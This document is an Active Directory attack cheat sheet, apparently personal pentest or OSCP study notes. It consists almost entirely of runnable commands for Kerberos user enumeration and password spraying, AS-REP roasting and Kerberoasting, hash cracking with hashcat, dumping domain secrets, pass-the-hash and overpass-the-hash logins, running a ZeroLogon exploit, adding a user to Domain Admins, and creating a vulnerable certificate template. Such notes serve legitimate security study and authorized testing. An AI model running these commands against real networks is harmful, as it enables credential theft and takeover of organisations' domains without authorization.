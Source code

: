 KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Install/Build latest kerbrute:

```bash
go install github.com/ropnop/kerbrute@latest
#or the good old-fashioned
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP roastable accounts
```bash
kerbrute userenum --dc $TARGET_IP --domain $TARGET_AD --hash-file hashes --downgrade users
```

LDAP
----
```bash
nmap -n -sV --script "ldap* and not brute" $TARGET_IP
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -s base namingcontexts
```

```bash
ldapsearch -x -H ldap://$TARGET_IP -b 'DC=$DOMAIN,DC=$DOMEXT' | grep -B2 Person | grep "@" | awk '{print $2}'
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -b "DC=$DOMAIN,DC=local" '(objectClass=person)'
```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
impacket-GetNPUsers -dc-ip $TARGET_IP -request -outputfile hashes.asreproast $AD_DOMAIN/$USER
```

Or if you got a shell on machine:
#rubeus 

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

NTLM dump from mimikatz brute for OSCP :
```bash
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
Crack AS-REP roast hash:
#hashcat #asrep-roasting #bruteforce 

```bash
sudo hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
#OR try
impacket-secretsdump $USER:$PASSWORD@$TARGET_IP
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
---
```powershell
#using PowerView.ps1
Set-DomainUserPassword -Identity $USERNAME -AccountPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -Force) -Domain $DOMAIN
Add-NetGroupUser -UserName $USER -GroupName "Domain Admins" -Domain $DOMAIN
```

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows #spn

The attacker impersonates an account user with a service principal name (SPN) and requests a service-related ticket.

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $DOMAIN/$USER
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $DOMAIN/$USER -request
```

#kerberoasting #rubeus

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

ZeroLogon (CVE-2020-1472)
---
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
python3.11 cve-2020-1472-exploit.py $NB_NAME $TARGET_IP
impacket-secretsdump -no-pass -just-dc $NB_NAME\$@$TARGET_IP\
evil-winrm -u administrator -i $TARGET_IP -H $HASH
```
Overpass the hash attack:
---
when NTLM protocol is disabled
#overpass-the-hash

```shell
impacket-getTGT $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
impacket-psexec $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse

List Active Directory AD Users:
---
#enumerate #ad #users

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users
```

Password spraying with CME

```shell
crackmapexec smb $DOMAIN -u users  -p $PASS --continue-on-success
```

Start collecting data for BloodHound:
---
#sharphound #bloodhound #ad

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\$USER\Desktop\ -OutputPrefix "audit"
```

```powershell
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetComputer
Get-NetComputer | select operatingsystem,dnshostname
Get-NetUser
Get-NetUser | select cn
Get-NetGroup
Get-NetGroup "$GROUP_NAME" | select member
Get-NetUser -SPN | select samaccountname,serviceprincipalname
Get-ObjectAcl -Identity $USERNAME
Convert-SidToName $SID
Find-DomainShare #-CheckShareAccess
```

resolve local machine address
`nslookup.exe $ADDRESS`